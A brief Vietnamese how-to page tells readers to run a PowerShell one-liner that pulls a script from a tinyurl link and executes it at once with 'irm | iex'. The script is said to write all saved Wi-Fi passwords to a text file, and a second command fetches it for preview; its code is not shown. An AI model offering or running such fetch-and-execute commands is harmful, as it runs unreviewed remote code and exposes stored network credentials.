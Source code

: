 Mở Powershell và chạy lệnh:

> **irm [https://tinyurl.com/GetListWifiPasswords](https://tinyurl.com/GetListWifiPasswords?fbclid=IwAR05MEDw97SVwJQ3TWmEp4yXOICs5vZ0_kl9DjFL4DAql2yjV18AQQiJyqo) | iex**

File danh sách mật khẩu Wifi sẽ lưu ở:  
"C:\!WifiPasswords\listWifiPasswords.txt"  
có dạng: [Tên Wifi]:[Mật khẩu]

**‍**

● Xem trước source code bằng Powershell:

> **irm [https://tinyurl.com/GetListWifiPasswords](https://tinyurl.com/GetListWifiPasswords?fbclid=IwAR00K3Z9dhxBpyKNzFd7EbG5Aj3y3JxKN0E0I4jAfKvnNFTRpP7Q2wZPv2I)**